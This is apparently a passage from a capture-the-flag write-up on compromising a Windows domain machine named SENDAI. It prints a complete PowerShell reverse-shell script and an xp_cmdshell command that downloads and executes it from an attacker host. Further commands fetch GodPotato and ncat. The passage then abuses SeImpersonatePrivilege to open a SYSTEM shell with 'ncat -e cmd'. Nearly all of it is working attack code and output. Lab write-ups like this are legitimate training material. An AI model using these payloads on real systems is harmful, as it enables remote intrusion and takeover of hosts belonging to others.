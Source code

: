 
**Reverse Shell Payload:**
```
cat shell.ps1      
$TCPClient = New-Object Net.Sockets.TCPClient('10.10.14.210', 9001);
$NetworkStream = $TCPClient.GetStream();
$StreamWriter = New-Object IO.StreamWriter($NetworkStream);
function WriteToStream ($String) {
    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};
    $StreamWriter.Write($String + 'SHELL> ');
    $StreamWriter.Flush()
}
WriteToStream '';
while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);
    $Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}
    WriteToStream ($Output)
}
$StreamWriter.Close()

```
**Execution:**
```
SQL (SENDAI\Administrator  dbo@master)> EXEC xp_cmdshell 'powershell -c "iex((New-Object Net.WebClient).DownloadString(''http://10.10.14.210:8000/shell.ps1''))"';
```
### Token Impersonation
Checking for privilege escalation vectors:
```
SHELL> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SHELL>
```
**Key Privilege:** `SeImpersonatePrivilege` (Enabled)
To abuse this I need to upload both [Godpotato](https://github.com/BeichenDream/GodPotato/releases/tag/V1.20) and a [Netcat binary](https://github.com/andrew-d/static-binaries/) to the machine
```
SHELL> cd /programdata
SHELL> curl http://10.10.14.210:8000/GodPotato-NET4.exe -o GodPotato-NET4.exe
SHELL> curl http://10.10.14.210:8000/ncat.exe -o ncat.exe
SHELL>
```
Then I will run the potato and start up a `netcat` listener on my host machine
```
SHELL> .\GodPotato-NET4.exe -cmd "ncat.exe 10.10.14.210 9001 -e cmd"

```
## Domain Compromise
Successfully received SYSTEM shell:
```
rlwrap nc -nlvp 9001   
```